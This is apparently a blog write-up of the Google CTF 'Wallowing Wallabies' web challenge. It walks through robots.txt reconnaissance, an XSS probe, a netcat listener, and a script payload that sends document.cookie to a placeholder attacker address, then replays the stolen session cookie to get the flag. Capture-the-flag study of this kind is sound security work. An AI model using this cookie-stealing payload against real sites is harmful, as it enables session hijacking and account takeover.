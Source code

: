 ```yaml
---
layout: post
title: Google CTF - Wallowing Wallabies - Part One
comments: true
---
```


This post is about the [Wallowing Wallabies](https://wallowing-wallabies.ctfcompetition.com/) web challenge of the [Google CTF](https://capturetheflag.withgoogle.com).

<div class="danger" markdown="1">
  **Warning:** This post contains spoilers.
</div>

On the website, we are greeted by this beautiful page:

![Wallowing Wallabies home page](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/homepage.png)

As interesting as this page is, I quickly moved to the `sitemap.xml` (none were found) and to the `robots.txt`:

```
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
```

After trying all the URLs, I found that the vendors one was interesting.

![Wallowing Wallabies Vendors](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors.png)

That's interesting. It is obviously a form where you put text that will be read by an administrator (or a bot in our case). Let's see if it's possible to do a [XSS injection](https://en.wikipedia.org/wiki/Cross-site_scripting). We will start by checking if the HTML tags are displayed to the page:

``` html
<h1>XSS</h1>
```

And we receive

![Wallowing Wallabies Vendor submission confirmation with XSS hint](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-hint.png)

So the `<h1>` didn't work, but we get told that they expect our form to contains `<script src=`. We can conclude that this challenge is really an XSS.

Now that we know what we can do, we have to find out what to do. The first thing to think about when we control a page that will be viewed by someone (especially an admin) is that we can steal his **session cookie**.

To steal a cookie, one can redirect the current user viewing the page to a page under our control, with the cookies appended to the URL. Note that this is a lazy way to do it and it might fail in some cases if the cookie is longer than the max length of the URL. Hopefully, this is not our case, so we can be lazy.

The first thing to do is to setup a server to receive the cookie. I used netcat as it is easy to setup and we only need to listen to one connection. Note that if you are behind a router, you will need to redirect the port you use to your computer. I will leave this as an exercise to the reader.

Start your "web server":

``` bash
netcat -l -p 8085 #-l is to listen -p is to specify the port
```

Now we need our JavaScript payload to redirect the user. Once again I don’t want to host the script, and the website wants to receive `<script src=`, so I just append it to my script to make the check pass.

``` html
<script>
  window.location = "http://YOUR_IP_ADDRESS:8085/" + document.cookie;
</script>
<script src=""></script>
```

The admin (bot) will load the page with your script in it, and you will see the URL containing the cookie in the netcat terminal. Don’t forget to **URL decode** the cookie.

Your cookie should look something like this:

```
green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2
```

The cookie is named `green-mountains` and the value is everything after the first `=`. We can see that it's in 3 parts separated by `|`. The first part looks like Base64 (you can tell because it's all **alphanumeric** and end with an `=`). If you decode it, you get:

``` json
{"nonce":"593a7fdc41a4f1a0","allowed":"^/deep-blue-sea/team/vendors.*$","expiry":1462051043}
```

The interesting part is the `allowed`, which seems to give access to our **vendor** website. We will set the cookie in the browser. You can do it by pasting that in the console:

``` js
document.cookie = "green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2";
```

When you access the [vendor](https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/vendors) page: **Voilà!** You get your flag!

![Wallowing Wallabies Vendor page with blurred flag](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-flag.png)
